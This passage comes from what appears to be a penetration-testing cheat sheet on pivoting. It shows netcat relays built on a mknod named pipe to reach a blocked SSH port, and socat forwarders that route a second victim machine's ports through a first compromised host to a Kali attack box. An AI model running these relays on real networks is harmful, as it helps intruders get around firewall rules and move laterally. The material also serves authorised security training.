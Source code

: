 ``` {#62b2 .graf .graf--pre .graf-after--p style="background: rgba(0, 0, 0, 0.047); margin-top: 43px; overflow: auto; padding: 20px;"}
Port Forwarding using mknod 

mknod can be used to make files,directories and FIFO's(Named Pipe)

mknod backpipe p / p = create a named pipe

nc -l -p Allowed_Inbound_port 0<backpipe | nc 127.0.0.1 22 1>backpipe
  
 1 = Standard Output
 0 = Standard Input
```

``` {#62b2 .graf .graf--pre .graf-after--p style="background: rgba(0, 0, 0, 0.047); margin-top: 43px; overflow: auto; padding: 20px;"}
Netcat Relay to Forward SSH on our linux machine with Scenario

you are on a windows box, trying to connect to a linux machine whose SSH-22 port inbound traffic is blocked. 
we have a shell on linux machine but not ssh -so trying to get into ssh 

so, find some port which is open on Linux machine, and use nc to communicate, ex:4444

on Linux Machine:

We need to transfer traffic from port 22 to 4444 and access it on windows machine.

mknod /tmp/backpipe p
nc -l -p 4444 0</tmp/backpipe | nc localhost 22 1>/tmp/backpipe
 
```

``` {#62b2 .graf .graf--pre .graf-after--p style="background: rgba(0, 0, 0, 0.047); margin-top: 43px; overflow: auto; padding: 20px;"}
Port Forwarding using SoCat:

Start a socat listener on Victim_macine2 - Port 8009 & 8080, and listen it on First compromisted machine.

From Victim-1 machine: do a port scan as above and port forrward the required ports
/Binding the VICTIM-2 ports to Victim-1 Machine so,that we can access it from our Kali machine

socat tcp-listen:8009,fork tcp:VICTIM2_IP:8009 &  
socat tcp-listen:8080,fork tcp:VICTIM2_IP:8080 & 

netstart -plunt    /View the binded ports, we can see 8009 & 8080 in Victim_machine1


Access the Victim-2 Ports on our Kali Machine:on Victim-1 Machine: 

socat tcp-listen:4321,fork tcp:KALI_IP:4321 & 
```

</div>

<div>
